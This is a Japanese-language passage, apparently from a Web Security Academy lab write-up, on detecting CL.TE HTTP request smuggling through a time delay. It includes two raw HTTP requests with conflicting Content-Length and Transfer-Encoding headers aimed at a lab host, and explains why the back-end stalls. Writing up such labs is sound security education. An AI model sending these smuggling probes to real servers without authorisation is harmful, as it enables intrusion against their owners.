 では時間遅延を見ていきましょう。

```text
POST / HTTP/1.1
Host: 0abc00760353b2c5800eee1b000c007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

1\r\n
a\r\n
```

![](./images/README_231014_5051.png)

このように送った時、Front-endは`Content-Length`を見るため、全てのメッセージをBack-endに転送します。

Back-endはTransfer-Encodingを見るため、メッセージの末尾に`0\r\n\r\n`を期待しますが、今回はないため約10sの待ちが発生しました

```text
POST / HTTP/1.1
Host: 0abc00760353b2c5800eee1b000c007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Transfer-Encoding: chunked

1
a
0


```
